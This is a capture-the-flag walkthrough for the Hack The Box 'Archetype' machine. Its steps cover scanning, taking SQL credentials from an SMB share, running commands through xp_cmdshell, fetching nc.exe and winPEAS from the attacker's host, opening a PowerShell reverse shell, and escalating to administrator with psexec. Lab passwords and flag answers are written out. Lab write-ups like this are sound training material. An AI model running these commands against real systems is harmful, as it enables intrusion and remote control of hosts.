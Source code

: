 # Archetype
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Which TCP port is hosting a database server?**
- Run an Nmap scan to check for open ports by `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]`. This scan reveals several open ports, including 445 (SMB) and 1433 (SQL Server), both of which are significant here.
![nmap](img/nmap.png) 
> **Answer:** 1433

**2. What is the name of the non-Administrative share available over SMB?**
- Use `smbclient` too inspect the SMB service, using `smbclient -L [IP-Address]`. We can skip password to enter as `guest` user and then see a list of sharename. Non-administrative shares don't end  with `$`.
![smb](img/smb.png)
> **Answer:** backups

**3. What is the password identified in the file on the SMB share?**
- Access `backups` with `smbclient \\\\[IP-Address]\\backups`. Once connected, list all files by `ls` and we notice there's `prod.dtsConfig` file.
![ls](img/ls.png)
- Download this file using `get` command
![get](img/get.png)
- Use `cat` command to view its content and we have password (`M3g4c0rp123`) and also user ID (`ARCHETYPE\sql_svc`)
![dts](img/dts.png)
> **Answer:** M3g4c0rp123

**4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**
- Found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) on the Internet
> **Answer:** mssqlclient.py
 
**5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**
- Connect to SQL Server using `/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@[IP-Address] -windows-auth`. Run `help` to view more options and `xp_cmdshell` is the most suitable answer
![xp](img/xp.png)
> **Answer:** xp_cmdshell
- Now we can excecute shellcommand like `whoami` to check 
![who](img/who.png)

**6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?**
- I did some research on the Internet and found [this](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook).
> **Answer:** winPEAs

**7. What file contains the administrator's password?**
- We can use **Netcat** to connect betwwen our machine and target machine.
- Copy **netcat** excecutable file to working directory by `cp /usr/share/windows-resources/binaries/nc.exe .`
- Start a HTTP server on port 80 by `sudo python3 -m http.server 80`
![http](img/http.png)
- On target machine, run `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[our-IP-Address]/nc.exe -outfile nc.exe`. This command will excecute powershell on target machine: change directory to `Downloads`, download `nc.exe` file from our machine and output as `nc.exe` too.
![get-nc](img/get-nc.png)
- On our machine, if reponse sends 200 code, that means we succeed
![200](img/200.png)
- Here we will use **Reverse Shell** method to connect and listen between 2 machines
    - In our machine, run `nc -lvnp 4444`
    - In target machine, run `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc.exe -nv [our-IP-Address] 4444 -e powershell.exe"`
    - If we connect successfully, we can excecute on target machine via powershell
    ![connect](img/connect.png)
- But now, if we move to `Administrator` folder, we can't do anything because access is denied, so we need to escalate privileges by using `winPEAs`.
- Download `winPEAS` excecutable file from [here](https://github.com/peass-ng/PEASS-ng/releases/tag/20241003-ae31e908), then run a HTTP server in port 80 on our machine. In target's powershell, run `wget http://[our-IP-Address]/winPEASx64.exe -outfile winpeas.exe` to get that file
![winp](img/get-winp.png)
- Now run winPEAS by `.\winpeas.exe fileanalysis` to analys files in this Windows machine. Noted that red output line **indicates a special privilege over an object or something is misconfigured.** Here we will find some suspicious files like `ConsoleHost_History.txt`
![ana](img/ana.png)
> **Answer:** ConsoleHost_History.txt

## Submit user flag
- User flag is located in `C:\Users\sql_svc\Desktop\user.txt`
![flag](img/flag.png)
- **User flag:** 3e7b102e78218e935bf3f4951fec21a3

## Submit root flag
- View `ConsoleHost_history.txt` file content using `cat` command and you will get username as `admin` and password as `MEGACORP_4dm1n!!`
![console](img/console.png)
- Now use `psexec` in Impacket collection by running `/usr/share/doc/python3-impacket/examples/psexec.py  administrator@[IP-Address]` and enter passwords. Now we can excecute as `Administrator` user   
![ps](img/psexe.png)
- The flag should be located in  `C:\Users\Adminstrator\Desktop\root.txt`
![flag](img/flag1.png)  
- **Root flag:** b91ccec3305e98240082d4474b848528

